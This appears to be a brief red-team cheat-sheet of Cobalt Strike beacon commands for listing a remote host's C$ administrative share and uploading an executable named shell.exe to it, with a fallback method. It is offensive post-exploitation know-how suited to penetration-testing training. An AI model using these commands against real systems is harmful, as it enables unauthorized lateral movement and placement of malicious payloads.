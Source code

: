 ## 01 - List Files and Directories

`beacon> ls \\<IP>\c$`

## 02 - Upload Files

`beacon> upload /home/user/shell.exe \\<IP>\c$\shell.exe`

If that didn't work change directory and then upload it

```
beacon> cd \\<IP>\c$

beacon> upload /home/user/shell.exe
```